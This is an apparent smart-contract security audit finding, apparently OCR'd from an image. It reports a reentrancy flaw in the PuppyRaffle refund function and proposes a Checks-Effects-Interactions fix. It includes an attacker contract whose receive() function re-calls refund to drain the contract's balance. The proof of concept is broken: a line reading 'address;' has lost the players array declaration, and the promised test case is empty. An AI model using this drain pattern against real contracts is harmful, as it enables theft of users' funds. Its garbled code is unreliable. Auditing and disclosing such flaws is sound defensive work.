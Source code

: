 [H-1] Reentrancy Vulnerability in `PuppyRaffle::refund` function

Description: The `PuppyRaffle::refund` function is vulnerable to a reentrancy attack. This occurs because the contract transfers funds to the player (via sendValue) before updating the player's status in the players array. Specifically, the player's address is only set to address(0) after the transfer, allowing a malicious contract to repeatedly call `PuppyRaffle::refund` within a fallback or receive function before the player's state is updated. This can drain the contract's balance as the attacker keeps receiving refunds in an infinite loop.

Impact: The attacker can exploit this reentrancy vulnerability to repeatedly invoke the `PuppyRaffle::refund` function, draining all funds in the contract. This could result in a complete loss of funds from the `PuppyRaffle` contract.

Proof of Concept:
1. Deploy the `PuppyRaffle::AttackerContract` 

```javascript
contract AttackerContract {
    PuppyRaffle puppyRaffle;
    uint256 attackerIndex;

    constructor(address _puppyRaffle) {
        puppyRaffle = PuppyRaffle(_puppyRaffle);
    }

    function attack() public payable {
        address;
        players[0] = address(this);
        puppyRaffle.enterRaffle{ value: puppyRaffle.entranceFee() }(players);

        attackerIndex = puppyRaffle.getActivePlayerIndex(address(this));

        // Trigger the refund, initiating the attack
        puppyRaffle.refund(attackerIndex);
    }

    receive() external payable {
        if (address(puppyRaffle).balance > 0) {
            puppyRaffle.refund(attackerIndex);
        }
    }
}
```

2. Run the following test case:

<details><summary>Code</summary></details>

Recommended Mitigation:

1. Follow the Checks-Effects-Interactions (CEI) pattern: Update the player's state (i.e., setting players[playerIndex] = address(0)) before interacting with external contracts or sending funds. This ensures that the player's state is updated before any external interaction can trigger reentrancy.

```diff
    function refund(uint256 playerIndex) public {
        address playerAddress = players[playerIndex];
        require(playerAddress == msg.sender, "PuppyRaffle: Only the player can refund");
        require(playerAddress != address(0), "PuppyRaffle: Player already refunded, or is not active");

+       players[playerIndex] = address(0);
        // calls payable(msg.sender).call{ value: entranceFee }(""); which sends the entranceFee to the player
-       payable(msg.sender).sendValue(entranceFee);

-       players[playerIndex] = address(0);
+       payable(msg.sender).sendValue(entranceFee);
```